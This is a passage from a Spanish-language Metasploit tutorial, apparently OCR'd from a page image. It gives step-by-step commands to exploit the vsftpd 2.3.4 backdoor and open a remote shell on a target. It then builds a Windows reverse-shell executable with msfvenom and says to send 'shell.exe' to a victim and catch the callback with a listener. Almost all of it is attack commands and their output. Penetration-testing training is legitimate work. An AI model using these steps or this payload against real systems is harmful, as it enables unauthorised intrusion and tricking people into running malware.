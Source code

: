 ✅ 3️⃣ Usar el exploit

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

✅ 4️⃣ Ver opciones

```bash
show options
```

✅ 5️⃣ Configurar objetivo

```bash
set RHOSTS 192.168.1.10
```

✅ 6️⃣ Ejecutar exploit

```bash
run
```

✅ Resultado:

```
[*] Command shell session 1 opened
```

✔ Ya tienes **shell** → puedes ejecutar comandos:

```
ls
whoami
pwd
```

---

### **8️⃣ Crear payload con msfvenom**

✅ 🎯 Generar shell reversa para Windows:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=TU_IP LPORT=4444 -f exe -o shell.exe
```

- `-p` → payload
- `LHOST` → tu IP (atacante)
- `LPORT` → tu puerto listener
- `-f` → formato (exe)
- `-o` → nombre del archivo

✅ Luego:

- Envías `shell.exe` a la víctima.
- Abres un listener con Metasploit o Netcat.
- Cuando la víctima lo ejecuta, obtienes shell.

---
